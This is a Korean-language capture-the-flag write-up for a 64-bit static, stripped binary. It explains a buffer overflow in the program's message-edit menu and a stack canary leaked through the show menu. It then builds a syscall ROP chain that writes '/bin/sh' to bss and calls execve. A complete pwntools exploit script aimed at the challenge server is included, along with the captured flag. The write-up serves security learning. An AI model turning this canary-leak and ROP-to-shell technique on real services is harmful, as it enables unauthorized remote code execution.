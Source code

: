 ```yaml
---
layout: post
title: 64bit srop write-up
---
```

1. Binary

----------

![](https://lh3.googleusercontent.com/30jp43G1peSoaTKeRUwwDruSbj4XJPeXdRwlgoEQYvEM8t74hABaLQ7Q4WDndC1Lg2-E9BQp4O8OC0vYZPgorry0nXMVJLxgD9LXecK0zHWuh7E-SAZF1bJ3JgS7Cp2NbMG6ZENg)

이 바이너리는 ELF 64bit 파일입니다. static 컴파일이 되어 있었고, strip된 파일이였습니다.

static 컴파일과 strip이 되어있어서 분석이 어려웠지만 gdb로 흐름을 쫓으며 분석하였습니다.

2. Vulnerability

----------

메뉴 2. Edit message에서 message를 입력 받는데, 여기서 buffer overflow 취약점이 발생합니다.

![](https://lh4.googleusercontent.com/H-MRa7p21Sfj16r6UWCP2MjpzUMPzuZ5oYkht_fLMQtMFxwg0Fl84wgRW0G0BgSBTk0VF5pcbMGjCTOlaScz092GBhAOOiEWKYyG9txbLmaryCIApToHZjUBafx75bNfqiUHELnd)

세번째 인자인 edx 가 400으로 세팅 되어 있습니다. 이는 1024만큼 입력을 받을 수 있게 됩니다.

![](https://lh4.googleusercontent.com/ctjVB282zddqRF4IsuXfUfHozYMTmCx0QHQ22fE7D1EQn3_GSBLaKWIipt5h3ZwodEXIYtQ3M0y06fmZqkDnxU9cPp3WcE1RpHZecuIWxuWgnma01FRyk_-spAfRt1GVaTh-n5ST)

sys_input? 함수를 보면 eax를 0으로 세팅하고 syscall 하는 것을 볼 수 있습니다. 64비트에서 sys_read는 rax가 0으로 세팅되어있으면 호출 됩니다.

![](https://lh3.googleusercontent.com/tfVHbhAUepw4VzGzcN39FcCIvczecNigw48c509WBbZ3SczgkCY2t-2AOOE1NLZUb50jI10eYezeB_OhHzjz8VtCi3K4VaWvh3_6NNC7fbR6LRjzHn7rEN3n8ImHdsI0eWJPbtyt)

입력을 받는 v8변수는 bp - 0xd0 위치에 있으며 bp - 208 위치에 있습니다. 1024만큼 입력을 받을 수 있으니 bof가 가능합니다.

하지만 bp - 0x8 위치에 canary 변수가 있는 것을 확인 할 수 있었습니다. 하지만 이는 1. show 메뉴에서 leak이 가능했습니다.

3. exploit

----------

static 컴파일과 strip 이 되어있어서 일반적인 rop는 힘들어보였습니다. 다만 이 문제에서 syscall을 이용하기 때문에 관련된 정보를 공부하였고, syscall을 이용해 rop가 가능하다는 점을 알았습니다. canary가 활성화 되어있기 때문에 canary를 먼저 leak을 먼저 해준 다음, 다시 input에서 overflow로 rop해주면 되는 문제였습니다.

canary는 널바이트 + 7byte 이렇게 구성이 되는데, 1바이트를 overflow하면 문자열의 끝을 인식 못해 뒤에 바이트까지 leak이 됩니다.

syscall rop 같은 경우는 각 syscall rax number가 정해져있는데, 먼저 bss 영역에 “/bin/sh”을 적기 위해 인자 세팅 후 read(rax == 0) syscall; ret; 가젯으로 호출한뒤 chaining을 통해 rdi에 bss를 세팅하고 rsi에 0을 세팅 한 뒤 rax에는 execve의 rax number인 59를 세팅해 call 했습니다.

밑에는 exploit.py입니다.

>exploit.py

```python
from pwn import  *

#s = process("./rich")

s = remote("null2root.org", 1797)

e = ELF("./rich")

#context.log_level = 'debug'

gadget =  0x0045e395  # syscall ; ret

prdi =  0x00400535

prsi =  0x004017b7

prax =  0x0046dcb6  # pop rax ; pop rdx ; pop rbx ; ret

s.recvuntil("> ")

s.sendline("2")

s.recvuntil(": ")

leak_payload =  "A"*201

s.send(leak_payload)

s.recvuntil("> ")

s.sendline("1")

s.recvuntil("A"*201)

canary = u64("\x00"+s.recv(7))

log.success("canary : "+ hex(canary))

s.recvuntil("> ")

s.sendline("2")

s.recvuntil(": ")

payload =  "A"*200  + p64(canary)+"AAAAAAAA"

payload += p64(prdi)

payload += p64(0)

payload += p64(prsi)

payload += p64(e.bss())

payload += p64(prax)

payload += p64(0) + p64(0xff) + p64(0)

payload += p64(gadget)

payload += p64(prdi)

payload += p64(e.bss())

payload += p64(prsi)

payload += p64(0)

payload += p64(prax)

payload += p64(59) + p64(0) + p64(0)

payload += p64(gadget)

s.send(payload)

s.recvuntil("> ")

s.sendline("3")

s.recv()

s.send("/bin/sh\x00")

s.recv()

s.interactive()
```

![](https://lh3.googleusercontent.com/XnSyaezo4a0TPR0Q8EsAOcMO94Ui6efVoquawzhGbKUvS1SuVEc6MqmOE1QSLRS1DhEpptMjvTXyumtt96KpKBl6gDB0Yluo1LiXjb2WAnh01OHVbujpDNP6nt2QjFQ3uLxBt2Kf)

FLAG : n2r{enjoying_rich_rop_with_static_binary}

 
